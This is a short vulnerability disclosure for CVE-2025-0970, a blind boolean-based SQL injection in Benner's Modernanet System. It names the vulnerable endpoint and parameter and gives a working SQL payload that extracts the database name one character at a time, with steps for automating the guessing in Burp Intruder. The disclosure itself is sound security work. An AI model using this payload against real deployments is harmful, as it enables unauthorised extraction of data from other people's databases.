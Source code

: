 # CVE-2025-0970
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: Tool like SQLmap doesn't work in this case**
**

## POC

This vulnerability resides in the /Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295 page in additionalCondition parameter,

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1=1) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:
![alt text](request.png)!


---


## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example
![alt text](intruder.png)


Observe, we have a longer response length when the letter is 'q', i.e. the first letter of the database name is 'q'.

You can repeat this, to the other letters


## Full url
https://IP/Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295

---

## Reference

https://modernasistemas.com.br/
